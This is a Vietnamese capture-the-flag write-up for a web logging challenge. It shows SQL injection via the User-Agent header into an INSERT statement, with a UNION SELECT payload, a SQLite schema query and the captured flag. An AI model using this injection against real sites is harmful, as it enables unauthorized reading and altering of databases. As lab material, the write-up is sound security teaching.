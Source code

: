 = Trang web có dạng:

<img width="1899" height="1032" alt="image" src="https://github.com/user-attachments/assets/ebc037f4-953b-44f6-93e6-a740c646299c" />

= Đây là dạng `SQL Injection trong câu lệnh INSERT`, thường dạng này sẽ đánh vào `User-Agent`:

= Dạng như này:
<img width="511" height="261" alt="image" src="https://github.com/user-attachments/assets/40a0a0b3-c20b-49e4-bbf1-1a0fbfd2b5e4" />

= Vì trang web của chúng ta có các trường như: `IP`, `User-Agent`, `Referer`, `URL`, `Cookie`, `Timestamp` nên trong CSDL sẽ có

```
INSERT INTO logger (ip, user_agent, referer, url, cookie, timestamp)
VALUES('x.x.x.x','Firefox','None','http://...','None','2025-09-11 14:40:43.965626')
```

= Chèn giá trị vào user_agent nên chúng ta sẽ không chèn được trường ip mà chỉ chèn được các trường `user_agent, referer, url, cookie, timestamp`

```
User-Agent: Mozilla/5.0', 'None', 'http://baby-logger-middleware-a3fa8f5a.dailycookie.cloud/', 'None', '2025-09-11 22:03:11.729883') UNION SELECT 1,2,3,4,5,6 --#
```

= Sau khi chèn xong ta thấy trả về kết quả, chúng ta chắc chắn là chỉ có 6 cột. 
<img width="928" height="918" alt="image" src="https://github.com/user-attachments/assets/ad6a0631-b6ba-42de-86ac-13cb95b85ca6" />

= Trang dùng SQLite, nên giờ phải trích xuất dữ liệu bằng SQLIte:

```
SELECT sql FROM sqlite_schema
```

<img width="1428" height="587" alt="image" src="https://github.com/user-attachments/assets/8940efdb-bd82-41aa-ab95-381109d5fcc3" />

= Chèn thêm mỗi cái `HACKER WAS HERE` vào 'id_address' là được:
<img width="878" height="152" alt="image" src="https://github.com/user-attachments/assets/0a02c9d7-2591-409c-bbfd-d36e696fce12" />

- Flag:

`
CHH{SQLi_CAn_chANGE_datA_8da929b69ae44ef912dcf8d725920c8a}
`
